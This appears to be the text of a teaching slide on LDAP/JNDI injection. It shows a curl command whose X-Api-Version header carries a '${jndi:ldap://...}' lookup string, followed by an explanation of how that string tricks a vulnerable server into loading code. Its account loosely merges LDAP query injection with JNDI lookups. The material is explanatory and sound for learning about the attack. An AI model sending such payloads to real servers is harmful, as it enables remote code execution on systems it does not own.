

# A specific input using an LDAP server
Attackers manipulate user inputs ‘’ to inject malicious LDAP queries that are sent to an LDAP server.
These queries can modify, disclose, or delete data in an LDAP directory.
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/code}'
jndi:ldap://127.0.0.1/code is a string that resembles a JNDI (Java Naming and Directory Interface) URL pointing to an LDAP server at 127.0.0.1 (which is the local machine) with a path of /code.
${} indicates variable interpolation,. It's trying to trick the victim server into interpreting ${jndi:ldap://127.0.0.1/code} as code to execute